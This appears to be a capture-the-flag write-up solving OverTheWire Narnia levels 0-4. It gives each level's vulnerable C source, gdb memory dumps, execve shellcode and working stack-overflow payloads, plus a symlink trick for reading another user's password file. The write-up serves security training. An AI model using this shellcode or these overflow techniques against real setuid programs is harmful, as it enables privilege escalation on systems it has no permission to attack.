 Solving Narnia Part 1
#####################

:title: Solving Narnia Part 1
:date: 2015-04-08T00
:modified: 2015-04-08 12
:tags:


Next up we take on `Narnia <http://overthewire.org/wargames/narnia/>`_. This is a 
binary exploit centered wargame, so fire up your debuggers and let's smash those
stacks. For levels 5, 6, 7, and 8, see `part 2 <http://unlogic.co.uk/2015/04/13/solving-narnia-part-2/>`_

All levels are in :code:`/narnia` and both the binary and the source are provided.

I've not included the passwords here, so you'll have to work through
the exercises yourself (or find them elsewhere :))

Level 00
-----------

.. code:: c  

	#include <stdio.h>
	#include <stdlib.h>
	
	int main(){
	        long val=0x41414141;
	        char buf[20];
	
	        printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	        printf("Here is your chance: ");
	        scanf("%24s",&buf);
	
	        printf("buf: %s\n",buf);
	        printf("val: 0x%08x\n",val);
	
	        if(val==0xdeadbeef)
	                system("/bin/sh");
	        else {
	                printf("WAY OFF!!!!\n");
	                exit(1);
	        }
	
	        return 0;
	}

Lines 8 and 9 tell us what we need to do. So knowing how variable allocation
on the stack works, we can exploit the setup on lines 5 and 6. :code:`buf` is a 
fixed size and is allocated *after* :code:`val`. Therefore it sits above :code:`val` on
the stack. As there is no `ASLR <https://en.wikipedia.org/wiki/Address_space_layout_randomization>`_
we should be able to write over the end of :code:`buf` and overwrite what is in memory
at :code:`val`'s location.

So let's try it

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*50" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCCCCC
	val: 0x43434343
	WAY OFF!!!!

Right, we can confirm that we are able to change the value of :code:`val`. Let's
tread a bit more carefully and try to see if we can do it more accurately

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + 'BBBB'" | ./narnia0 
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCBBBB
	val: 0x42424242
	WAY OFF!!!!

So there is no space between :code:`val` and :code:`buf`, therefore 20 characters plus a 
further 4 is enough to change val. Let's write in the correct value, reversed of
course because of the endian notation

.. code:: console

	narnia0@melinda:/narnia$ python -c "print 'C'*20 + '\xef\xbe\xad\xde'" | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	narnia0@melinda:/narnia$

We did it.... but wait, where's the shell? It's closed, that's where it is. We
need to keep it open. The trick is to append the :code:`cat` command to the input

.. code:: console

	narnia0@melinda:/narnia$ (python -c "print 'C'*20 + '\xef\xbe\xad\xde'"; cat) | ./narnia0
	Correct val's value from 0x41414141 -> 0xdeadbeef!
	Here is your chance: buf: CCCCCCCCCCCCCCCCCCCCﾭ
	val: 0xdeadbeef
	id
	uid=14000(narnia0) gid=14000(narnia0) euid=14001(narnia1) groups=14001(narnia1),14000(narnia0)
	whoami
	narnia1
	cat /etc/narnia_pass/narnia1
	[password]

Level 01
-----------

.. code:: c 

	#include <stdio.h>
	
	int main(){
		int (*ret)();
	
		if(getenv("EGG")==NULL){    
			printf("Give me something to execute at the env-variable EGG\n");
			exit(1);
		}
	
		printf("Trying to execute EGG!\n");
		ret = getenv("EGG");
		ret();
	
		return 0;
	}

So here we need to set an environment variable named :code:`EGG` to something
we want executed. We can't just pass :code:`/bin/bash` as it's going to call whatever
we give it as a function. Ideally we want a shell, so what we need in this case
is the shellcode to do just that.

.. code:: console

	narnia1@melinda:/narnia$ export EGG=$(python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')
	narnia1@melinda:/narnia$ ./narnia1
	Trying to execute EGG!
	$ whoami
	narnia2
	$ cat /etc/narnia_pass/narnia2
	[password]

Level 02
-----------

.. code:: c 

	#include <stdio.h>
	#include <string.h>
	#include <stdlib.h>
	
	int main(int argc, char * argv[]){
		char buf[128];
	
		if(argc == 1){
			printf("Usage: %s argument\n", argv[0]);
			exit(1);
		}
		strcpy(buf,argv[1]);
		printf("%s", buf);
	
		return 0;
	}

The biggest clues here are lines 6 and 12. Copying user supplied data
into a fixed sized array without any bound checking is always asking for 
trouble. :code:`narnia2` binary also runs as setuid narnia3, which leads us to believe
we will be able to control the stack and get it to execute a payload of our 
choosing. Of course this will be a shellcode to drop us into a shell.

First we need to work out how much data is needed to overwrite :code:`EIP`. We can
do this by trial and error, or we can use a pattern generator. I am going to
use my `pattern generator <https://github.com/Svenito/exploit-pattern>`_ instead
of metasploit's one. I'll create a payload big enugh to overflow the 
buffer and then check the value of :code:`EIP`. Pasting that back into the pattern
generator will tell us at what location in the pattern the string occurs.

.. code:: console

	local $] ./pattern.py 150
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9

.. code:: console

	narnia2@melinda:/narnia$ gdb -q narnia2
	Reading symbols from narnia2...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	Starting program: /games/narnia/narnia2 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x37654136 in ?? ()
	(gdb) info reg
	eax            0x0	0
	ecx            0x0	0
	edx            0xf7fcb898	-134432616
	ebx            0xf7fca000	-134438912
	esp            0xffffd640	0xffffd640
	ebp            0x65413565	0x65413565
	esi            0x0	0
	edi            0x0	0
	eip            0x37654136	0x37654136
	eflags         0x10282	[ SF IF RF ]
	cs             0x23	35
	ss             0x2b	43
	ds             0x2b	43
	es             0x2b	43
	fs             0x0	0
	gs             0x63	99

.. code:: console

	local $] ./pattern.py 0x37654136
	Pattern 0x37654136 first occurrence at position 140 in pattern.

We can control :code:`EIP` with whatever we put at position 140 of our payload. But
what do we put there? Well for that we need to figure out where the rest of our
data is going. Using a known payload let's see where our input ends up:

.. code:: console

	(gdb) run $(python -c "print 'a' * 140 + 'b' * 4")
	Starting program: /games/narnia/narnia2 $(python -c "print 'a' * 140 + 'b' * 4")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	(gdb) x/200x $esp
	0xffffd650:	0x00000000	0xffffd6e4	0xffffd6f0	0xf7feacea
	0xffffd660:	0x00000002	0xffffd6e4	0xffffd684	0x08049768
	0xffffd670:	0x0804821c	0xf7fca000	0x00000000	0x00000000
	0xffffd680:	0x00000000	0xed18585e	0xd520bc4e	0x00000000
	0xffffd690:	0x00000000	0x00000000	0x00000002	0x08048360
	0xffffd6a0:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd6b0:	0x00000002	0x08048360	0x00000000	0x08048381
	0xffffd6c0:	0x0804845d	0x00000002	0xffffd6e4	0x080484d0
	0xffffd6d0:	0x08048540	0xf7feb180	0xffffd6dc	0x0000001c
	0xffffd6e0:	0x00000002	0xffffd812	0xffffd828	0x00000000
	0xffffd6f0:	0xffffd8b9	0xffffd8cd	0xffffd8dd	0xffffd8f0
	0xffffd700:	0xffffd913	0xffffd927	0xffffd930	0xffffd93d
	0xffffd710:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd720:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd730:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd740:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd750:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd760:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd770:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd780:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd790:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd7a0:	0x00000009	0x08048360	0x0000000b	0x000036b2
	0xffffd7b0:	0x0000000c	0x000036b2	0x0000000d	0x000036b2
	0xffffd7c0:	0x0000000e	0x000036b2	0x00000017	0x00000000
	0xffffd7d0:	0x00000019	0xffffd7fb	0x0000001f	0xffffdfe2
	0xffffd7e0:	0x0000000f	0xffffd80b	0x00000000	0x00000000
	0xffffd7f0:	0x00000000	0x00000000	0xe8000000	0x7c03ba19
	0xffffd800:	0x2bd0895a	0x3866226d	0x69ad5957	0x00363836
	0xffffd810:	0x672f0000	0x73656d61	0x72616e2f	0x2f61696e
	0xffffd820:	0x6e72616e	0x00326169	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626262	0x47445800	0x5345535f
	0xffffd8c0:	0x4e4f4953	0x3d44495f	0x30333035	0x45485300
	0xffffd8d0:	0x2f3d4c4c	0x2f6e6962	0x68736162	0x52455400
	0xffffd8e0:	0x78723d4d	0x322d7476	0x6f633635	0x00726f6c
	0xffffd8f0:	0x5f485353	0x45494c43	0x323d544e	0x322e3231
	0xffffd900:	0x37352e33	0x3136312e	0x35333320	0x34203932
	0xffffd910:	0x53003334	0x545f4853	0x2f3d5954	0x2f766564
	0xffffd920:	0x2f737470	0x4c003033	0x4c415f43	0x00433d4c
	0xffffd930:	0x52455355	0x72616e3d	0x3261696e	0x5f534c00
	0xffffd940:	0x4f4c4f43	0x723d5352	0x3a303d73	0x303d6964
	0xffffd950:	0x34333b31	0x3d6e6c3a	0x333b3130	0x686d3a36
	0xffffd960:	0x3a30303d	0x343d6970	0x33333b30	0x3d6f733a

We see our payload start at :code:`0xffffd828` with the last 4 bytes at :code:`0xffffd8b4`

The buffer gives us 128 bytes to play with. Our shellcode is 25 bytes, so we'll pad the
start with a `nop sled <https://en.wikipedia.org/wiki/NOP_slide>`_ to adjust for
the memory offset introduced by :code:`gdb`. Then set the :code:`EIP` to somewhere in the middle
of the sled

.. code:: console

	narnia2@melinda:/narnia$ ./narnia2 `python -c "print '\x90'*115 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x60\xd8\xff\xff'"`
	$ whoami
	narnia3
	$ cat /etc/narnia_pass/narnia3
	[password]

Level 03
-----------

.. code:: c 

	#include <stdio.h>
	#include <sys/types.h>
	#include <sys/stat.h>
	#include <fcntl.h>
	#include <unistd.h>
	#include <stdlib.h>
	#include <string.h> 
	
	int main(int argc, char **argv){
	 
	        int  ifd,  ofd;
	        char ofile[16] = "/dev/null";
	        char ifile[32];
	        char buf[32];
	 
	        if(argc != 2){
	                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
	                exit(-1);
	        }
	 
	        /* open files */
	        strcpy(ifile, argv[1]);
	        if((ofd = open(ofile,O_RDWR)) < 0 ){
	                printf("error opening %s\n", ofile);
	                exit(-1);
	        }
	        if((ifd = open(ifile, O_RDONLY)) < 0 ){
	                printf("error opening %s\n", ifile);
	                exit(-1);
	        }
	 
	        /* copy from file1 to file2 */
	        read(ifd, buf, sizeof(buf)-1);
	        write(ofd,buf, sizeof(buf)-1);
	        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);
	 
	        /* close 'em */
	        close(ifd);
	        close(ofd);
	 
	        exit(1);
	}
	

At first glance this looks a bit more complicated. However it is just another
buffer overflow (line 13 and 22). This time however we don't control the stack, 
we control where the file gets written to. :code:`/dev/null` is not a useful place
for data, and we want the contents of :code:`/etc/narnia_pass/narnia4`. As :code:`narnia3` runs 
setuid narnia4, it can do that for us.

First we determine that we need 32 characters to overflow the buffer. Then anything
beyond that will get written to the ofile. So the plan is to to create a symlink to
:code:`narnia4` that is 32 characters long, and then write that to the target. The issue here
is that the source path's last 16 characters need to be the same as the target.
So to do this I created the following directory and symlink:

.. code:: console

	narnia3@melinda:/narnia$ mkdir -p /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp
	narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4

Now when we pass that to :code:`narnia3`:

.. code:: console

	narnia3@melinda:/narnia$ ./narnia3 `python -c "print '/tmp/' + 'x'*27 + '/tmp/narn4'"` 
	copied contents of /tmp/xxxxxxxxxxxxxxxxxxxxxxxxxxx/tmp/narn4 to a safer place... (/tmp/narn4)
	narnia3@melinda:/narnia$ cat /tmp/narn4 
	[password]

It's a little odd, but I hope you understand what happened. The last part of the 
first path has to be a valid path, so that it can be written to. That's why we have 
the double :code:`/tmp` setup.

Level 04
-----------

.. code:: c 

	#include <string.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <ctype.h>
	
	extern char **environ;
	
	int main(int argc,char **argv){
		int i;
		char buffer[256];
	
		for(i = 0; environ[i] != NULL; i++)
			memset(environ[i], '\0', strlen(environ[i]));
	
		if(argc>1)
			strcpy(buffer,argv[1]);
	
		return 0;
	}

MOAR OVERFLOWS. This time you'll notice something at line 6. What this does
is `store the user environment <http://man7.org/linux/man-pages/man7/environ.7.html>`_.
This then get zerod out inside :code:`main` to prevent us from storing any shellcode
in environment variables. However we might still be able to write :code:`EIP`, so using the
trusty pattern generator from before

.. code:: console

	local $] ./pattern.py 300
	Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
	Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
	Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

.. code:: console

	narnia4@melinda:/narnia$ gdb -q ./narnia4 
	Reading symbols from ./narnia4...(no debugging symbols found)...done.
	(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
	Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
	Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
	Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
	Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
	Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
	Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
	
	Program received signal SIGSEGV, Segmentation fault.
	0x316a4130 in ?? ()

.. code:: console

	local $] ./pattern.py 0x316a4130
	Pattern 0x316a4130 first occurrence at position 272 in pattern.

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
:code:`EIP`.

.. code:: console

	(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
	Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")
	
	Program received signal SIGSEGV, Segmentation fault.
	0x62626262 in ?? ()
	(gdb) x/200x $esp
	0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
	0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
	0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
	0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
	0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
	0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
	0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
	0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
	0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
	0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
	0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
	0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
	0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
	0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
	0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
	0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
	0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
	0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
	0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
	0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
	0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
	0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
	0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
	0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
	0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
	0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
	0xffffd760:	0x00000000	0x00000000	0x9e000000	0x9213cb6c
	0xffffd770:	0x8eef41b1	0xe0574cc7	0x69a73659	0x00363836
	0xffffd780:	0x00000000	0x00000000	0x00000000	0x2f000000
	0xffffd790:	0x656d6167	0x616e2f73	0x61696e72	0x72616e2f
	0xffffd7a0:	0x3461696e	0x61616100	0x61616161	0x61616161
	0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7d0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7e0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd7f0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd800:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd810:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd820:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd830:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd840:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd850:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd860:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd870:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd880:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd890:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8a0:	0x61616161	0x61616161	0x61616161	0x61616161
	0xffffd8b0:	0x61616161	0x62626261	0x00000062	0x00000000
	0xffffd8c0:	0x00000000	0x00000000	0x00000000	0x00000000
	0xffffd8d0:	0x00000000	0x00000000	0x00000000	0x00000000

Our input starts at around *0xffffd7a8* so let's get going writing our payload.
Create a nopsled that is *272 - 25* bytes long, follow that with the
the same shellcode as before, and finish with an address that sits comfortably
in the sled. You normally need to play with the address a bit, as the offsets
inside *gdb* are a bit different.

.. code:: console

	narnia4@melinda:/narnia$ ./narnia4 `python -c "print '\x90'*(272-25) + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80' + '\x30\xd8\xff\xff'"`
	$ whoami
	narnia5
	$ cat /etc/narnia_pass/narnia5
	[password]
